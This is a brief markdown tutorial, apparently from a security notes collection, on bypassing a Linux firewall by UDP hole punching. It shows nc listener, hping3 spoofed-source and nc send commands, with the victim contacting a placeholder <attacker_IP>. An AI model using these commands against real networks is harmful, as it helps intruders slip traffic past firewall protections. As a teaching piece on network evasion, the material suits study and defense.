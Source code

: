 ```yaml
---
author(s):
  - Sebastian Dante Alexander
tags:
  - post-exploitation
  - defense-evasion
  - living-off-the-land
  - linux
---
```

# Bypass Firewall

Using  [[Hping3|hping3]] to bypass the firewall. and `netcat` tools under Linux. Firstly start a UDP listener and in this example the port will be 14141.

```
userware@hackware-os:~$ nc -ulp 14141
```

An external computer (`remote`) then attempts to contact it.

```
victim@remote:~$ echo "hello" | nc -p 53 -u <attacker_IP> 14141
```

However, as expected nothing is received on attacker's machine and, thanks to the firewall, nothing is returned to remote. Now to bypass it. We'll use `hping3` to generate IP packets to punch a hole in the firewall.

```
root@hackware-os:~# hping3 -c 1 -2 -s 14141 -p 53 <target_IP>
```

As long as remote is behaving itself, it will send back a `port unreachable` response via ICMP - however this is of no consequence. On the second attempt. The `netcat` listener then coughs up a `hello` - the UDP packet from outside has passed through the firewall and arrived at the computer behind it.

```
victim@remote:~$ echo "hello" | nc -p 53 -u <attacker_IP> 14141
```